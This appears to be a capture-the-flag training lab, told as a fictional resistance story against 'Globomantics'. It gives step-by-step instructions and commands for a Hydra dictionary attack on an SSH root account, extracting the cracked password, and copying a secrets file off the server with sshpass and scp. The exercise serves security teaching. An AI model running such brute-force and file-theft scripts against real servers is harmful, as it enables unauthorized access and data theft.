 # Using Hydra to Crack Passwords

## Lab description: In this challenge, you will access the Globomantics network through their SSH service, through a dictionary attack launched using Hydra.

It was a gray, cold winter day when you decided to join the Resistance. The Dark Kittens was the main opposing force against Globomantics' evil intentions, however, nothing matched the power and resources of this huge conglomerate.
Their plan was to deploy artificial intelligence agents to implement a totalitarian regime, in which people's emotions would be forcefully supressed through a drug called "the spice". The humanity was in serious danger.
Until one day, when a whistleblower sent a message to the Dark Kittens, sharing that the keys to the main AI controller were sitting on an SSH server. With those, you, together with the Dark Kittens, could stop Globomantics from putting their evil ideas into practice.

You decide to try hacking into the SSH server and grab the secret keys. 

On a Linux machine, open a terminal. Next, you need to do the following:
1. Create a script called attack.sh.
2. Inside it, add `#!/bin/bash` at the top of the file.
3. After that, add the details of the host, `root` as username, and the path to their secrets file that you got from your informer. The file was supposingly stored in /tmp/sensitive-info.txt file.
4. Next, create the following line, where you sent the path to a file containing a list of the most common passwords to Hydra:
```hydra -l $username -P passwd.txt $host ssh -o result.txt```
5. Then, add the command to fetch the password and store it in a file called result.txt:
```password=$(grep 'login:password' result.txt | awk '{print $3}')```
6. With the purpose of analyzing the secrets file fetched from the Globomantics network, add the following command to copy the file to your machine:
```sshpass -p "${password}" scp "${username}@${host}:${secrets_file_path}" "${local_path}"```
7. Launch the script.
8. After running the script, open the file by running this command:
```cat /tmp/sensitive-info.txt```

And the result should be successful. You should see something similar to the snippet below:

```
Password: d683a51d
Secret Key: 493e1aec-a884-11ed-afa1-0242ac120002
```

It was a great victory for humanity! But it was just a battle. The war was far from over...
